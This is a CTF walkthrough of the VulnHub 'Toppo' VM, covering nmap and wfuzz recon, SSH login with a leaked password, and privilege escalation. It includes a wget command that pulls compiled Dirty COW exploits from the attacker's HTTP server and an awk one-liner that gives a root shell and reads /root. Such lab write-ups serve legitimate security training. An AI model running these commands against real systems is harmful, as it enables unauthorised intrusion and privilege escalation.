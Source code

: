 ## Toppo VulnHub VM walkthrough

Toppo by https://twitter.com/h4d3sw0rm

Link: https://www.vulnhub.com/entry/toppo-1,245/



```
The Machine isn't hard to own and don't require advanced exploitation .

Level : Beginner

DHCP : activated

Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .

If you have any question : my twitter is @h4d3sw0rm

Happy Hacking !
```


## Solution

When I've ran **Toppo** on VirtualBox, it shows me IP assigned by my DHCP: 192.168.1.5. First things first - `nmap` scan to discover running sevices, their versions, OS version and so on:

```
bl4de:~/playground/VulnHub $ nmap -p- -sV -A 192.168.1.5
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-20 18:07 IST
Nmap scan report for 192.168.1.5
Host is up (0.10s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          43451/udp  status
|_  100024  1          48747/tcp  status
48747/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.24 seconds
```

As expected, typical services were running (`www` and `ssh`). 
Let's figure out if there is any web application run:


![](assets/1.png)

Yep, some Simple Blog web app is present. MAybe it's based on CMS with well known vulnerabilities or is just some poorly written hand-made PHP app?

Quick recon with `wfuzz` and some standard dictionaries reveals `admin` and `mail` folders. `admin` contains only one file: `notes.txt` with very interesting information:


![](assets/2.png)


`mail` folder contains only one PHP file: `contact_me.php`. Further investigation reveals `http://192.168.1.5/contact.html`  which posts a form to this file:


![](assets/5.png)


### Down The Rabbit Hole

Yep, I've assumed that what I've needed to do was to exploit contact form to get an access to the server. That was a pretty nice rabbit hole (I don't know if it was intentionally), and pretty obvious attack vector for someone who spend 95% of his hacking time digging into web apps :D, and I've spent some time trying to exploit non-existent vulnearbilities in `contact_me.php`. I've tried many payloads searching for LFI, SQL Injection and so on, and I've been loosing more and more confidence with every single fired payload, which fails.


![](assets/4.png)


Obvioulsy, nothing worked, but I've promised to get back to this later, keeping in mind every elite haxor Rule No. 1 - **Try Harder!**  (_spoiler: I didn't get back, as it wasn't the way to pwn this VM ;)_ )


### Getting back on track

I decided to get back to this weird `notes.txt` file:

```
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

```

Because `ssh` was working, I decided to give it a try and log in using found password and maybe some usernames. The first username I've tried was `toppo`, but it didn't work. To my surprise, on second attempt, with username `ted` found in the middle of revealed password, I was able to log in. Yay! We've got a shell!


![](assets/6.png)


Now, some post-exploitation stuff: `LinEnum.sh` to see more details about the machine and then `linux-exploit-suggester.sh` to find out what juicy exploit can be run on this machine.


`LinEnum` did not reveral anything exciting, except one thing: `/usr/bin/awk` can be run as `root`. As I've been focused on finding the right exploit, I've noted the fact about `awk` somewhere in my head and went straight to `linux-exploit-suggester.sh` results. Some entries immediately caught my attention:


![](assets/7.png)


`dirtycow` sounds like a good choice. `searchsploit` gave me some really promising list of Privilege Escallation exploits for Linux with kernels from 2.6.22 up to 3.9 (`Toppo` is a Debian 8 Jessie machine with kernel 3.16.0-4-586)


![](assets/8.png)



### Setting up file transfer


There was one small problem though. `Toppo` has no `gcc` installed, so I needed to find out how to compile exploits outside and send them to `Toppo`. There are plenty of methods to do such things, here's how I've created an easy way to exchange files between machines.


On my host machine (macOS High Sierra), in a folder where I kept all files i wanted to have send to `Toppo`, I ran Node HTTP Simple Server.

You can install one with this command (you will need NodeJs and npm installed and configured first):

```
$ npm i -g http-server
```

Now, you can run HTTP server in ANY folder you want:

```
bl4de:~/playground/VulnHub $ http-server -p 3000 ./
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:3000
  http://192.168.1.1:3000
Hit CTRL-C to stop the server

[Fri Jul 20 2018 00:44:45 GMT+0100 (IST)] "GET /LinEnum.sh" "Wget/1.16 (linux-gnu)"
```


From `Toppo`, I was able to download any file I needed, using `wget`, including compiled exploits:


```
ted@Toppo:~$ wget http://192.168.1.1:3000/dirtycow2
converted 'http://192.168.1.1:3000/dirtycow2' (ANSI_X3.4-1968) -> 'http://192.168.1.1:3000/dirtycow2' (UTF-8)
--2018-07-20 00:06:56--  http://192.168.1.1:3000/dirtycow2
Connecting to 192.168.1.1:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12685 (12K) [application/octet-stream]
Saving to: 'dirtycow2'

dirtycow2                 100%[====================================>]  12.39K  --.-KB/s   in 0s

2018-07-20 00:06:56 (204 MB/s) - 'dirtycow2' saved [12685/12685]

ted@Toppo:~$
```

_(BTW, I compile those exploits using another VM, Ubuntu 14.04, run with Vagrant)_


Unfortunately, none of Dirty Cow exploits worked, so I decided to use discovered `awk`, which `ted` was able to use with root privileges.

The only thing left to do was to find a way to run system commands with `awk`. Below is a very nice oneliner to achieve this, which I found on https://guif.re/linuxeop website (by Guifre Ruiz - https://twitter.com/GuifreRuiz):

```
awk 'BEGIN {system("/bin/bash")}'
```

As I didn't need to spawn a shell (I just wanted to read what's in `/root` folder), I've edited the command to list content of `/root` directory and finally was able to get the flag and pwn `Toppo` VM:


```
ted@Toppo:~$ awk 'BEGIN {system("ls -l /root")}'
total 4
-rw-r--r-- 1 root root 397 Apr 15 10:19 flag.txt
ted@Toppo:~$ awk 'BEGIN {system("cat /root/flag.txt")}'
_________
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



ted@Toppo:~$
```


Flag: **0wnedlab{p4ssi0n_c0me_with_pract1ce}**


## Wrap-up

`Toppo` was very nice and interesting challenge. Thank you @h4d3sw0rm for this very interetsing VM :) I look forward for your another VMs!

Happy Hacking!

bl4de
